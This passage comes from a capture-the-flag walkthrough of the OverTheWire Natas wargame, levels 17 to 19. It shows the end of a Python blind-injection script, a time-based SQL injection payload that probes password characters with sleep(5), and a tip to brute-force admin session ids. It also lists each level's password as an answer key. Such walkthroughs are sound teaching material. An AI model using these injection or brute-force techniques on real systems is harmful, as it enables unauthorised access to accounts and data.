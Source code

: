 ```
        if valid not in r.text:
            password.append(ch)
            continue

print('Password: {}'.format(''.join(password)))
```

password: 8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw


# ## [Level 17 -> Level 18](https://overthewire.org/wargames/natas/natas18.html)

Username: natas17
Lab URL: http://natas17.natas.labs.overthewire.org/

payload: natas18" and if(substring(password,1,1)="x",sleep(5),'A')# -> if true then sleep for 5 seconds

password: xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP

# ## [Level 18 -> Level 19](https://overthewire.org/wargames/natas/natas19.html)

Username: natas18
Lab URL: http://natas18.natas.labs.overthewire.org/

Brute force admin session id, you can use burp for this or write python script:

![Password](assets/natas/18/password.png)

password: 4IwIrekcuZlA9OsjOkoUtwU6lhokCPYs

# ## [Level 19 -> Level 20](https://overthewire.org/wargames/natas/natas20.html)

Username: natas19
Lab URL: http://natas19.natas.labs.overthewire.org/
